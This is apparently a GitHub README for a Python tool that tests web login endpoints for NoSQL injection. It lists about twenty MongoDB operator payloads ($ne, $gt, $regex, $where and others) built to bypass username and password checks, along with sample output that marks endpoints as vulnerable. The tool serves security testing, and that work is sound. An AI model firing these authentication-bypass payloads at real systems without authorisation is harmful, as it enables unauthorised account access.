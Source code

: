 # NoSQL Injection Testing Script

This script is designed to test web applications for NoSQL Injection vulnerabilities by sending various payloads to a specified endpoint and checking the responses.

## Prerequisites

Ensure you have the following installed:

- Python 3.x
- `requests` library (`pip install requests`)

## Files

1. **`urls.txt`**: A file containing the URL(s) of the web application endpoint(s) to be tested.
2. **`payloads.json`**: A file containing the payloads to be used for testing NoSQL Injection vulnerabilities.
3. **`results.json`**: The output file where the results of the tests will be stored.

### `urls.txt`
A plain text file with each line containing a URL to test. Example:
```
http://localhost:5000/login
```

### `payloads.json`
A JSON file with an array of payloads to be tested. Example:
```json
[
    {"username": {"$ne": null}, "password": "password"},
    {"username": "admin", "password": {"$ne": null}},
    {"username": "admin", "password": {"$gt": ""}},
    {"username": {"$exists": true}, "password": "password"},
    {"username": "admin", "password": {"$lt": "z"}},
    {"username": {"$regex": ""}, "password": "password"},
    {"username": {"$ne": "nonexistent"}, "password": "password"},
    {"username": {"$in": ["admin", "user"]}, "password": "password"},
    {"username": {"$nin": []}, "password": "password"},
    {"username": "admin", "password": {"$gte": ""}},
    {"username": {"$type": "string"}, "password": "password"},
    {"username": {"$not": {"$eq": null}}, "password": "password"},
    {"username": {"$and": [{"$gt": ""}, {"$lt": "z"}]}, "password": "password"},
    {"username": {"$or": [{"$gt": ""}, {"$lt": "z"}]}, "password": "password"},
    {"username": {"$mod": [1, 0]}, "password": "password"},
    {"username": {"$where": "this.password.length > 0"}, "password": "password"},
    {"username": {"$ne": "admin"}, "password": {"$ne": "wrong_password"}},
    {"username": {"$gt": "a"}, "password": "password"},
    {"username": {"$regex": "^admin$"}, "password": {"$ne": null}},
    {"username": {"$in": ["admin", "root"]}, "password": {"$ne": null}}
]
```

## Usage

1. Clone the repository or download the script.
2. Ensure you have `urls.txt` and `payloads.json` in the same directory as the script.
3. Run the script:

```bash
python nosql_injection_tester.py
```

The script will read the URLs and payloads, perform the tests, and save the results in `results.json`.

## Output

The results will be stored in `results.json`, with each entry indicating whether the payload was successful (vulnerable) or not.

Example of `results.json`:
```json
[
    {
        "url": "http://localhost:5000/login",
        "payload": {"username": {"$ne": null}, "password": "password"},
        "status": "Vulnerable"
    },
    {
        "url": "http://localhost:5000/login",
        "payload": {"username": "admin", "password": {"$ne": null}},
        "status": "Not Vulnerable"
    }
]
```
Created by:
- Milton Heras
- Jorge Cordero
- Jhoaho Sánchez
- Jairo García
